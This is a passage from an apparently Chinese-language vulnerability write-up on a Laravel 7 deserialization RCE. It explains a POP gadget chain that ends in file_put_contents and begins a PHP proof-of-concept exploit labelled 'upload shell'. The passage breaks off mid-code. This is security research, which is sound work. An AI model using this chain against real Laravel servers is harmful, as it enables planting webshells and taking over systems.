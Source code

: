 ```
public function append($path, $data)
    `{`
        return file_put_contents($path, $data, FILE_APPEND);
    `}`
```

又是一个堪称完美的函数, 参数均可控而且调用就直接写入文件, 快狠准! (FILE_APPEND表示可追加写入)

那新的 pop 链就成型了, 这里做个整体总结

```
class PendingBroadcast -&gt; __destruct()
↓↓↓
class ChannelManager -&gt; call() -&gt; driver()
↓↓↓
abstract class Manager -&gt; getDefaultDrive()
↓↓↓
class ChannelManager -&gt; createDriver()
↓↓↓
class ChannelManager -&gt; callCustomCreator()
↓↓↓
class RequestGuard -&gt; user() -&gt; call_user_func()
↓↓↓
class Filesystem -&gt; append() -&gt; file_put_contents()
↓↓↓
剩下就是其它的一些无关紧要的调用

```

建立 exp.php

```
&lt;?php

/*
# -*- coding: utf-8 -*-
# @filename: laravel 7 RCE poc2
# @author: Ricky
# @ability: upload shell
*/

namespace Illuminate\Broadcasting `{`
    class PendingBroadcast `{`
        protected $events;
        protected $event;
        public function __construct($events) `{`
            $this-&gt;events = $events;
        `}`
    `}`
`}`
// $this-&gt;events-&gt;dispatch($this-&gt;event);

namespace Illuminate\Notifications
`{`
    class ChannelManager
    `{`
        protected $container;
        protected $defaultChannel;
        protected $customCreators;

        function __construct($function, $parameter)
        `{`
            $this-&gt;container = $parameter;
            $this-&gt;customCreators = ['x' =&gt; $function];
            $this-&gt;defaultChannel = 'x';
        `}`
```
